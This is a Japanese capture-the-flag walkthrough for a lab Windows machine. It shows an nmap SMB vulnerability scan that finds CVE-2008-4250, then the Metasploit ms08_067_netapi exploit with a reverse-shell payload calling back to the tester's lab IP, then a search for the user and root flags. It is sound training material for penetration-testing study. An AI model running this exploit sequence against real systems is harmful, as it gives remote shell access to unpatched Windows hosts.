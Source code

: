 # 1.Port Scan

対象マシンのポートをスキャン
`ip=10.10.10.4`

![969b3d0408e3679cdd641d4f04f282bc.png](../_resources/969b3d0408e3679cdd641d4f04f282bc.png)

スキャンすると139ポートでファイル共有サービスである「netbios-ssn」が稼働している事を確認
下記コマンドで関連した脆弱性「CVE-2008-4250」を確認
`nmap -p 139,445 --script smb-vuln* $ip`
![e89f5a902061d2d867d051eb5c1521ff.png](../_resources/e89f5a902061d2d867d051eb5c1521ff.png)
CVE-2008-4250を調べた結果Microsoft Windowsのサーバーサービスに存在する深刻なリモートコード実行の脆弱性とのこと
CVE-2008-4250で使用するMetasploitモジュールを調べた結果「ms08\_067\_netapi 」であることを確認

# 2.Exploit

Metasploit Framework を使用
`msfconsole`
![dda8211d9f70db879b6910ee56f5b2ca.png](../_resources/dda8211d9f70db879b6910ee56f5b2ca.png)

下記コマンドを使用してExploitを設定
・使用するエクスプロイトを設定
`use exploit/windows/smb/ms08_067_netapi`
・ターゲットIPを設定
`set rhosts $ip`
・ペイロードを設定
`set PAYLOAD windows/meterpreter/reverse_tcp`
・攻撃者のIPを設定
`set lohos$ip`
・targetIDを設定しシステムを選択
`set target 6`
・エクスプロイトを実行
`exploit`

use exploit/windows/smb/ms08\_067\_netapi
set rhosts 10.10.10.4
set PAYLOAD windows/shell\_reverse\_tcp
set lhost 10.10.14.16
set target 6
exploit
![995710ca38ad78b630d608772edca427.png](../_resources/995710ca38ad78b630d608772edca427.png)

# 3.Flag Get

`Wher root.txt`

![c393c7902856b6b600a69a0f0f47f730.png](../_resources/c393c7902856b6b600a69a0f0f47f730.png)
whereコマンドが使えない為問題文をヒントに捜索
`dir`
`cd Documents and Settings`
`dir`
![ae8ed31c87fa51bf5a64ad75f884d576.png](../_resources/ae8ed31c87fa51bf5a64ad75f884d576.png)
ディレクトリ「Administrator」と「john」を発見。移動した所それぞれ「user.txt」と「root.txt」を確認
`cd john`
`cd Desktop`
`dir`
![9ebce44990399803ff8b84a5d371f034.png](../_resources/9ebce44990399803ff8b84a5d371f034.png)
cd Administrator
cd Desktop
dir
![7758ee9c7885fe605c383351c4153a22.png](../_resources/7758ee9c7885fe605c383351c4153a22.png)